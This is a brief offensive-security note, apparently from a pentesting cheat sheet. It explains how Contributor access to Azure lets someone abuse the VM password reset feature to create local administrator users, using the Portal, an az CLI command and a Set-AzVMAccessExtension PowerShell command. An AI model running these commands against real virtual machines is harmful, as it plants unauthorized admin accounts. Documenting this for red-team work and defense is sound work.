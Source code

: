 # Exploiting Password Reset Feature

## Requirements: Contributor account/role access

## Tools: Lava, Azure Portal , Azure command line

### The password reset feature for Azure VMs was intended to simplify the process of resetting the password of a local Azure VM user, using the VM agent that is installed on every Azure VM. However, this feature could be abused to create new local users with administrative privileges on both Windows and Linux VMs in Azure!

# 1) Azure Portal

 - On the target VM, go to "reset password" then choose our newly created user and set his new password.

# 2) Azure CLI

 - az vm user update -u USERNAME -p PASSWORD -n VM_NAME -g RESOURCE_GROUP (Create a local user for a VM.)

# 3) Azure Powershell

 - Set-AzVMAccessExtension -ResourceGroupName "RESOURCE_GROUP" -Location "LOCATION" -VMName "VM_NAME" -Name "EXTENSION_NAME" -TypeHandlerVersion "2.4" -UserName "USERNAME" -Password "PASSWORD"
